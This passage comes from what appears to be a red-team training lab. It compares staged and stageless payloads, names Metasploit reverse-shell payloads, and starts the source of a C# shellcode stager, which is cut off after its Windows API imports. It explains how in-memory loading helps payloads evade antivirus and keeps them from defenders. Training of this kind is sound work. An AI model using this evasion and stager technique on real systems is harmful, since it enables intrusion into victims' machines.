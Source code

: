 - Small footprint on disk. Since stage0 is only in charge of downloading the final shellcode, it will most likely be small in size.
- The final shellcode isn't embedded into the executable. If your payload is captured, the Blue Team will only have access to the stage0 stub and nothing more.
- The final shellcode is loaded in memory and never touches the disk. This makes it less prone to be detected by AV solutions.
- You can reuse the same stage0 dropper for many shellcodes, as you can simply replace the final shellcode that gets served to the victim machine.

In conclusion, we can't say that either type is better than the other unless we add some context to it. In general, stageless payloads are better suited for networks with lots of perimeter security, as it doesn't rely on having to download the final shellcode from the Internet. If, for example, you are performing a USB Drop Attack to target computers in a closed network environment where you know you won't get a connection back to your machine, stageless is the way to go.

Staged payloads, on the other hand, are great when you want your footprint on the local machine to be reduced to a minimum. Since they execute the final payload in memory, some AV solutions might find it harder to detect them. They are also great for avoiding exposing your shellcodes (which usually take considerable time to prepare), as the shellcode isn't dropped into the victim's disk at any point (as an artifact).

# Stagers in Metasploit

When creating payloads with msfvenom or using them directly in Metasploit, you can choose to use either staged or stageless payloads. As an example, if you want to generate a reverse TCP shell, you will find two payloads exist for that purpose with slightly different names (notice the **`_`** versus **`/`** after **`shell`**):

| Payload | Type |
| --- | --- |
| windows/x64/shell_reverse_tcp | Stageless payload |
| windows/x64/shell/reverse_tcp | Staged payload |

You will generally find that the same name patterns are applied to other types of shells. To use a stageless Meterpreter, for example, we would use the **`windows/x64/meterpreter_reverse_tcp`**, rather than **`windows/x64/meterpreter/reverse_tcp`**, which works as its staged counterpart.

# Creating Your Own Stager

To create a staged payload, we will use a slightly modified version of the stager code provided by [@mvelazc0](https://github.com/mvelazc0/defcon27_csharp_workshop/blob/master/Labs/lab2/2.cs). The full code of our stager can be obtained here, but is also available in your Windows machine at **`C:\Tools\CS Files\StagedPayload.cs`**:

*Full Payload Code (Click to read)*

```bash
using System;
using System.Net;
using System.Text;
using System.Configuration.Install;
using System.Runtime.InteropServices;
using System.Security.Cryptography.X509Certificates;

public class Program {
  //https://docs.microsoft.com/en-us/windows/desktop/api/memoryapi/nf-memoryapi-virtualalloc 
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  //https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-createthread
  [DllImport("kernel32")]
```